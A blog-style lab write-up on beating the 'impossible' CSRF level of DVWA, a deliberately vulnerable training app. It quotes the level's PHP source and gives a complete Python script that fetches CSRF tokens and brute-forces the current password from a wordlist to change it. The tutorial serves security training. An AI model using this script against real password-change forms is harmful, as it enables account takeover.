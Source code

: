 +++
date = '2025-10-11T20:05:17+07:00'
title = 'Exploting IMPOSSIBLE Security Level CSRF - DVWA'
tags = ['Blog', 'Hacking']
description = 'A step-by-step guide on how I exploit the IMPOSSIBLE security level of CSRF vulnerability in DVWA (Damn Vulnerable Web App).'
draft = false

[cover]
  image = '/images/posts/dvwa-cover.webp'
  alt = 'DVWA Cover'
  caption = 'DVWA Cover'
  relative = false
+++

## DVWA's CSRF Challenge

This challenge works around a password reset form, enabling admin to change their password. The first three levels can be exploited with these solutions:

-   **LOW Security Level**: we just need a URL with correct params setup, from that URL make a GET request and we can change the password.
-   **MEDIUM Security Level**: this level adds a check of `Referer` header, since it should be the same as where the request originated from, a simple `curl` command may exploit this level.
-   **HIGH Security Level**: this is where the game plays, it needs a CSRF token for every request to change the password. This is not so hard to exploit - a Python script can exploit it.

For more information: [https://github.com/jameskaois/dvwa-vulnerabilities/tree/main/csrf](https://github.com/jameskaois/dvwa-vulnerabilities/tree/main/csrf)

## Cracking IMPOSSIBLE Security Level CSRF

This level seems to impossible to exploit. However, there is a vulnerability: this level requires a new value which is `password_current` in order to check if the user know the current password before changing the new one.

The source code:

```php
// Sanitise current password input
$pass_curr = stripslashes( $pass_curr );
$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass_curr = md5( $pass_curr );

// Check that the current password is correct
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$current_user = dvwaCurrentUser();
$data->bindParam( ':user', $current_user, PDO::PARAM_STR );
$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
$data->execute();

// Do both new passwords match and does the current password match the user?
if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
    // ...
}
```

This seems to be secure however unlike the IMPOSSIBLE level of brute-force it will have several checks and also limit the errors. Therefore, in that IMPOSSIBLE brute-force it is kinda hard to brute-force the password. However, this IMPOSSIBLE level in CSRF doesn't check like that.

=> We can brute-force the current password then change new one (even though we doesn't know the current password).

My created Python exploit code:

```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESSS_ID>",
    "security": "impossible"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)

            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword():
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    try:
        with open('/usr/share/wordlists/rockyou.txt') as file:
            for line in file:
                password = line.rstrip()

                user_token = getCSRFToken()

                if not user_token:
                    print('Failed to fetch token')
                    continue


                url = baseUrl + f"?password_current={password}&password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

                try:
                    print(f'Attempting {password}')
                    res = requests.get(url, cookies=cookies, headers=headers)

                    if "Password Changed" in res.text:
                        print()
                        print(f'Found current password: {password}')
                        print('Successfully change password')
                        exit()
                except requests.exceptions.RequestException as e:
                    print("Request error:", e)
    except FileNotFoundError as e:
        print("File not found:", e)

changePassword()
```

In the code I use `rockyou.txt` passwords list, you can change to whatever you want.

The result:
![Guide image](/images/posts/impossible-security-level-csrf-dvwa-1.png)
